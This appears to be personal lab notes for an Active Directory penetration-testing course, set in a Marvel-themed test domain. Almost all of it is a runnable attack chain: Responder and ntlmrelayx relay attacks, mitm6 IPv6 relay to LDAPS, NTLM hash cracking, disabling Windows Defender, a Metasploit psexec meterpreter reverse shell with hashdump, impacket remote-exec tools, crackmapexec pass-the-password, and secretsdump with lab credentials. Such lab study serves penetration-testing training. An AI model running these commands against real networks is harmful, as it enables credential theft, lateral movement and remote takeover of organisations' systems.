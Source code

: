 # Active Directory

## Hashcat

Cracking the NTLM hash:
```
hashcat.exe -m 5600 hashes.txt rockyou.txt -O
```

* Login to spiderman and fcastle machines. 
* AD is marvel.local 
* marvel fcastle should be admin. 
* Reboot both machines.

On kali:
```bash
sudo mousepad /etc/responder/Responder.conf
```

disable SMB and HTTP OFF:
```bash
SMB = Off
HTTP = Off
```

Run responder: 
```bash
sudo responder -I eth 0 
```

On Kali, scan spiderman machine:
```bash
nmap --script=smb2-security-mode.nse -p445 <IP-ADDRESS>/24 -Pn
```

Output target IP to `targets.txt`:
```bash
echo <TARGET-IP> > targets.txt
```

Run attack `ntlmrelayx`:
```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Login to Frank Castle machine:
Go to File explorer and go to network share and do this, replaceing `<HOST-IP>` with Kali VM IP:
```bash
\\<HOST-IP>
```
There should be hashes dumped.


```bash
ntlmrelayx.py -tf targets.txt -
```
To get shell, connect to file share again on windows machine.

```bash
nc 127.0.0.1 11000
```

```bash
shares
```


---

* IPv6 Attacks
* Gaining Shell Access
* Reviewing Attack Strategies

Run both of these scripts:
```bash
sudo mitm6 -d marvel.local
```

IPv6:
```bash
ntlmrelayx.py -6 -t ldaps://<DC-IP> -wh wpad.marvel.local -l lootme
```

Go to the loot directory and you should see a bunch of files that have been collected.

Login to Frank Castle machine.

![[IPv6 Attacks Mitigation.png]]

Go to PUNISHER machine and disable Windows Defender.

**Gaining Shell Access:**

Using MetaSploit is the most detected:
```bash
msfconsole
```

```bash
search psexec
```

```bash
use exploit/windows/smb/psexec
```

```bash
options
```

Frank Castle IP:
```bash
set rhosts <TARGET-IP>
```

```bash
set smb fcastle
```

```bash
set smbpass Password1
```

```bash
set smbdomain MARVEL.local
```

```bash
options
```

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

```bash
options
```

```bash
show targets
```

```bash
set target 2
```

```bash
options
```

```bash
run
```

`meterpreter>` shell
```bash
help
```

```bash
getuid
```

```bash
hashdump
```

```bash
shell
```

```bash
whoami
```

```bash
hostname
```
Ctrl+C to terminate channel 1 and go back to meterpreter, Ctrl+Z to MetaSploit.

```bash
sessions
```

New tab:
```bash
psexec.py marvel.local/fcastle:Password@192.168.X.X
```

Shell:
```
C:\Windows\system32
```

```bash
smbexec.py marvel.local/fcastle:Password@192.168.X.X
```

```bash
wmiexec.py marvel.local/fcastle:Password@192.168.X.X
```

![[Attacking AD.png]]
[https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

Pass the Password:
```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash>
```

```bash
sudo crackmapexec smb 192.168.138.0/24 -u fcastle -d MARVEL.local -p Password1
```
`MARVEL.local\fcastle:Password1 (Pwn3d!)`

```bash
sudo secretsdump.py MARVEL/fcastle:Password@192.168.138.145
```

Local SAM hashes.
```bash
sudo secretsdump.py MARVEL/<user>:@192.168.138.132
```

